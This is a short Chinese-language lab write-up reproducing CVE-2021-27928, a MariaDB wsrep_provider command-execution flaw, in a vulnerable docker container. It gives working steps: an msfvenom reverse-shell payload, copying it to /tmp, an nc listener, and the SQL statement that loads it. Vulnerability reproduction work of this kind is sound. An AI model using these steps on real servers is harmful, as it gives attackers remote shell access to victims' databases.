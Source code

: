# MariaDB 命令执行

## 漏洞描述

MariaDB wsrep_provider 命令执行

Version: 
  MariaDB 10.2 before 10.2.37
          10.3 before 10.3.28
          10.4 before 10.4.18 
          10.5 before 10.5.9

## 启动

docker run -p 3306:3306  --name some-mariadb -e MYSQL_ROOT_PASSWORD=my-secret-pw -d vultarget/mariadb-cve_2021_27928:10.2.35

## writeup

- msf生成反弹shell

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f elf-so -o CVE-2021-27928.so
```

- 上传到被攻击MariaDB的 /tmp目录下

```
docker cp CVE-2021-27928.so 14:/tmp/CVE-2021-27928.so
```

- 攻击者等待接收反弹shell

```
nc -lvv <port>
```

- 被攻击Marial中执行

```
SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so";
```

## 复现结果

![](./1.png)
